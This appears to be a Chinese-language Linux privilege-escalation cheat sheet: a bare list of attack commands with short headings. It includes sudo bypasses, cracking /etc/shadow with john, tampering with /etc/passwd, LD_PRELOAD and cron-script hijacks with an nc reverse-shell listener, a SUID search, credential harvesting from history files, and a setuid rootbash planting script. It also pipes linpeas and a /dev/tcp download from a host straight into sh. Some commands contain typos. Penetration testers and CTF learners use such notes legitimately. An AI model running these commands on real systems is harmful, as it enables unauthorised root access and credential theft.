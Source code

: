 ### 查看当前用户
cl

### 查看当前目录
pwd

### 枚举
sudo -l

### 切换用户
sudo -u jack /bin/bash
sudo -u#10000 /bin/bash

### 修改交互更好的bash环境
python -c "import pty;pty.spawn('/bin/bash')"

### 搜索
grep -R -i pass /home/* 2>dev/null

### sudo -u提权
sudo -V | grep version 
'Sudo version 1.7.4p4'
sudo -u#-1 /bin/bash

### sudo apt(apt-get)提权
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash

### sudo apache2提权
sudo apache2 -f /etc/shadow
vim shadow_root
sudo john shadow_root --wordlist=/usr/share/wordlists/rockyou.txt

### sudo ash提权
sudo ash

### sudo awk提权
sudo awk 'BEGIN {system("/bin/bash)}'

### shadow 可读可写
ls -liah /etc/shadow
cat /etc/passwd
cat etc/shadow
cat /etc/shadow | grep ':\$'
vim hash
cat vim
sudo john  --wordlist=/usr/share/wordlists/rockyou.txt hash

mkpasswd -m sha512 admin
vim /etc/shadow 

### passwd 可读可写
openssl passwd admin
vim etc/passwd

### sudo环境变量提权
'env_reset,env_keep+=LD_PRELOAD'
vim 共享库
编译
sudo LD_PRELOAD=/home/user/共享库 find

### 自动任务提权
cat /etc/crontab

'***** root overwrite.sh'
'***** root /usr/local/bin/compress.sh'

locate overwrite.sh
ls -lish /../../overwrite.sh
cat /../../overwrite.sh

kali@kali:sudo nc -lvnp 4444

vim /../../overwrite.sh
反弹shell
----------------------------
vim overwrite.sh
提权脚本
/tmp/rootbash -p

### suid提权
find / -perm -u=s -type f 2>dev/null

/usr/local/bin/suid-so
usr/local/bin/suid-env
usr/local/bin/suid-env2

searchsploit xxx

### 密码和密钥历史文件提权
history
cat ～/.*history | less
ls -liah
cat .viminfo
cat myvpn.ovpn

ssh

### 备份shadow/passwd
cp /etc/shadow /tmp/shadow.bak
cp /etc/passwd /tmp/passwd.bak

### 查看历史记录
history

### 内核提权
uname -a
'内核版本过低'
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
##### 无curl
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo nc -lvnp 80 < linpeas.sh
cat < /dev/tcp/192.168.204.129/80 | sh

### doas

### mysql提权思路
mysql -u root
show databases;
use mysql
show tables;
select * from user;
describe user;


chomd 600 file

locate password | more
find / -name root_key 2> /dev/null

### 提权脚本
"#! /bin/bash

cp /bin/bash /tmp/rootbash
chomd +xs /tmp/rootbash"

/tmp/rootbash -p

### 提权大全
https://gtfobins.github.io/
